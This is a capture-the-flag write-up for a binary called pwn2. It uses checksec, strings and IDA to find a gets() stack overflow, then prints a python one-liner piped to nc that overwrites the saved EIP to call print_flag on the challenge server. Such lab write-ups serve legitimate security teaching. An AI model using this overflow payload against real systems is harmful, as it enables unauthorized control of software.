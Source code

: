 # pwn2
---

As with most exploit challenges, let's copy the binary to a Linux system and take a look!  Once in Linux, we will check the security implementations of the file using checksec with gdb-peda.  Then, we will run the file and strings command on the binary to see if we can get any hints.

```bash
gdb-peda$ checksec
CANARY : disabled
FORTIFY : disabled
NX : ENABLED
PIE : disabled
RELRO : Partial
```

From this, we get an idea of what we are going to be able to do.  No Canary means buffer and heap overflows will work but NX being enabled means no shellcode execution from the stack.

```bash
user@ubuntu:~/TAMU$ file ./pwn2
./pwn2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=7bc1a419a4b258706db93ad2f8785e46fdee9636, not stripped
user@ubuntu:~/TAMU$ strings pwn2
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
gets
fopen
puts
putchar
```

From the file command, you can tell it is a 32-bit ELF executable and from strings command, we can already tell the vulnerability we are probably going to exploit.  "gets" is a popular vulnerability in entry-level CTFs and probably what the program is using to read input from the user somewhere.  So run the program and take a look.

```bash
user@ubuntu:~/TAMU$ ./pwn2
I just love repeating what other people say!
I bet I can repeat anything you tell me!
Hello!
Hello!
```

This didn't give us any hints so take a look at the disassembly in IDAPro.

![image](http://killyp.com/wp-content/uploads/2018/02/Capture-4.jpg)

So just as suspected the echo function contains a _gets call that we can overflow the buffer with and get flow control via the EIP register.  There is also a print_flag function that is never called. Don't know about you but I suspect we just need to redirect program flow to this print_flag function.  To do that we need the address of the print_flag function and the size of the overflow needed to overwrite the old EIP saved on the stack. We get a hint in the disassembly about the size of the overflow needed in that there is only one variable and it is located at EBP-0xEF.  0xEF is 239 in decimal so the length of our buffer overflow then needs to be 243 characters to fill up the allocated memory for s and then overwrite the old EBP that has been saved on the stack.  For more visual people, the stack will look something like this:

```
----------------------                                       
|          SSS        |<----The first 3 bytes of our input   
|---------------------|                                      
|          ...        |<----236 bytes of our input           
|---------------------|                                      
|          SSSS       |<----The last 4 bytes of out input    
|---------------------|                                      
|          EBP        |<----The old saved base pointer       
|---------------------|                                      
|          EIP        |<----The old Instruciton pointer. We  
-----------------------      need to overwrite this with the 
                             address of print_flag           
```

We can also get the location of print_flag from IDA by changing the view with spacebar.

![image](http://killyp.com/wp-content/uploads/2018/02/Capture-5.jpg)

Here we can see the location of print_flag is at 0x0804854B.  So let's build out exploit!

Since this exploit doesn't involve shellcode or anything fancy I am just going to use python's -c flag to output the text we need and pipe it into the stdin of the program.  Our exploit will be structured:
243 "A"s + address of print_flag

Remember that the address needs to be in Little Endian.  Our exploit ends up looking like this:

```python
python -c 'print("A"*243 + "\x4B\x85\x04\x08")' | nc pwn.ctf.tamu.edu 4322
```

Which yields...

![image](http://killyp.com/wp-content/uploads/2018/02/Capture-6-e1519695718223.jpg)

Success!
